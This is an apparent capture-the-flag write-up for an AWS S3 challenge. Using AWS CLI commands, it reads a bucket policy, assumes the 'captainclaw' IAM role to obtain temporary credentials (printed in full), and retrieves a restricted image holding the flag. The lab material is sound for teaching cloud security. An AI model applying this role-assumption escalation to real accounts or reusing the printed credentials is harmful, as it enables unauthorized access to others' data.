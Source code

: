 First add the credentials to your .aws/credentials file.

```
AWS_PROFILE=ctf aws s3 ls cats-in-a-bucket
```

We can see 4 files in the bucket, so let's fetch those first.

```
aws s3 sync s3://cats-in-a-bucket .

download failed: s3://cats-in-a-bucket/cat4.jpg to ./cat4.jpg An error occurred (AccessDenied) when calling the GetObject operation: Access Denied
download: s3://cats-in-a-bucket/cat1.jpg to ./cat1.jpg             
download: s3://cats-in-a-bucket/cat2.jpg to ./cat2.jpg              
download: s3://cats-in-a-bucket/cat3.jpg to ./cat3.jpg              
```

It seems like the 4th file does not allow to be downloaded.

Let's check the bucket policy

```
aws s3api get-bucket-policy --bucket cats-in-a-bucket                         

    "Policy": "{\"Version\":\"2008-10-17\",\"Statement\":[{\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::261640479576:user/misterbuttons\"},\"Action\":[\"s3:ListBucket\",\"s3:GetBucketPolicy\"],\"Resource\":\"arn:aws:s3:::cats-in-a-bucket\"},{\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::261640479576:user/misterbuttons\"},\"Action\":\"s3:GetObject\",\"Resource\":[\"arn:aws:s3:::cats-in-a-bucket/cat1.jpg\",\"arn:aws:s3:::cats-in-a-bucket/cat2.jpg\",\"arn:aws:s3:::cats-in-a-bucket/cat3.jpg\"]},{\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::261640479576:role/captainclaw\"},\"Action\":\"s3:ListBucket\",\"Resource\":\"arn:aws:s3:::cats-in-a-bucket\"},{\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::261640479576:role/captainclaw\"},\"Action\":\"s3:GetObject\",\"Resource\":\"arn:aws:s3:::cats-in-a-bucket/cat4.jpg\"}]}"

```

We obviously need to get the final bucketpolicy namely

```
{
	"Effect":"Allow",
		"Principal":{
		   "AWS":"arn:aws:iam::261640479576:role/captainclaw"
		},
	"Action":"s3:GetObject",
	"Resource":"arn:aws:s3:::cats-in-a-bucket/cat4.jpg"
 }
```

If we try to assume the user role 

```
aws sts assume-role --role-arn "arn:aws:iam::261640479576:role/captainclaw" --role-session-name "clawsession1"

{
    "Credentials": {
        "AccessKeyId": "ASIATZ2X44NMBK73QC76",
        "SecretAccessKey": "5+PkHSmbESzJqXnjKmd+zMmVso0d+cCBh5efUc39",
        "SessionToken": "FwoGZXIvYXdzEL///////////wEaDH/1MZRXIrcqOLJkuCKwAbetLw/e+WYWJvWRKWv69QYunI79QExWz/j7mdkkxqfWOWRCdT8kFlgpWZLakBQdvkJCwiMZc0GLMUt6Cy81ijXrZsrQHeVrkwLg72sT5+9wtYBpcJmF3rdYjX+X3Ncyfk3CGaOu/R3XQlB+gtc3nFZjLNA6+QBqi3ouC6V4W7XFSupRTwejR3cyynTS8N4m8fM7iXX5Ykz85DS3OuUwG26vCsa6ownXtyFzHJYO31uUKLGL0qEGMi32IntLtp90ng9wGk+QZGvzXX+nEtYj+RA4d4xha0qUlPT7mcxG0tckVJSHSLs=",
        "Expiration": "2023-04-10T22:54:57+00:00"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROATZ2X44NMIIMXFXIG7:clawsession1",
        "Arn": "arn:aws:sts::261640479576:assumed-role/captainclaw/clawsession1"
    }
}

```

After adding this information in .aws/credentials you can fetch the image

```
aws s3api get-object --bucket cats-in-a-bucket --key cat4.jpg cat4.jpg
```

which contains the flag

he2023{r0l3_assum3d_succ3ssfuLLy}
